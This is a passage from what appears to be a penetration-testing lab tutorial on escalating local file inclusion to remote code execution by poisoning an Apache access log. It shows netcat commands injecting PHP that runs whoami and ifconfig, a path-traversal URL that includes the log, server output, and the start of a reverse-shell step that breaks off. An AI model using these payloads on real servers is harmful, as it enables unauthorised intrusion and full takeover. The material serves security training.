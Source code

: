 <p>If the Apache access log successfully renders on the webpage, it indicates that the server has misconfigured permissions on the /var/log/apache2/ directory. Typically, Apache logs are readable only by root, preventing unauthorized access. However, if the web server’s process (www-data) has read access, we can retrieve log contents. If it has write access, we can inject malicious payloads into the log file.</p>
<hr/>
<h3>Contaminating the Access Log</h3>
<p>Since web requests are automatically logged, we can inject PHP code into the log file by sending an invalid HTTP request. When this log file is later included via LFI, the PHP code executes.</p>
<p>We send a malformed HTTP request with embedded PHP code:</p>
<pre><code class="language-shell-session">[!bash!]$ nc 192.168.0.6 80

&lt;?php echo `whoami`; ?&gt;

HTTP/1.1 400 Bad Request
</code></pre>
<p>Since this request format is invalid, Apache logs it as an error. However, the injected PHP payload gets written into the log file.</p>
<p>Now, if we visit: <code>http://192.168.0.6/login.php?file=../../../var/log/apache2/access.log</code>, we should see the output of <code>whoami</code> displayed on the page, it confirms that we have command execution.</p>
<img class="website-screenshot" data-url="http://192.168.0.6/login.php?file=../../../var/log/apache2/access.log" src="/storage/modules/207/widgetinclusion4.png"/>
<p>This vulnerability allows an attacker to escalate from LFI to Remote Code Execution (RCE), enabling full control over the target system.</p>
<p>We could as well validate this with the <code>ifconfig</code> command.</p>
<pre><code class="language-shell-session">[!bash!]$ nc 192.168.0.6 80

&lt;?php echo `ifconfig`; ?&gt;

HTTP/1.1 400 Bad Request
Server: Apache/2.4.56 (Debian)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

&lt;!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN"&gt;
&lt;html&gt;&lt;head&gt;
&lt;title&gt;400 Bad Request&lt;/title&gt;
&lt;/head&gt;&lt;body&gt;
&lt;h1&gt;Bad Request&lt;/h1&gt;
&lt;p&gt;Your browser sent a request that this server could not understand.&lt;br /&gt;
&lt;/p&gt;
&lt;hr&gt;
&lt;address&gt;Apache/2.4.56 (Debian) Server at 127.0.1.1 Port 80&lt;/address&gt;
&lt;/body&gt;&lt;/html&gt;
</code></pre>
<p>Upon navigating back to the webpage we should notice the output of the ifconfig command. With this, we should be able to get a reverse shell with no problem.</p>
<img class="website-screenshot" data-url="http://192.168.0.6/login.php?file=../../../var/log/apache2/access.log" src="/storage/modules/207/widgetinclusion5.png"/>
<p>If the target web server has Netcat installed, we can escalate Local File Inclusion (LFI) to a Remote Code Execution (RCE) attack by injecting a reverse shell into the Apache access log. This would allow us to gain a foothold on the captive portal web server.</p>
<p>Since Apache logs invalid HTTP requests, we can inject a Netcat reverse shell payload into the log by sending an invalid request.</p>
<pre><code class="language-shell-session">[!bash!]$ nc 192.168.0.6 80
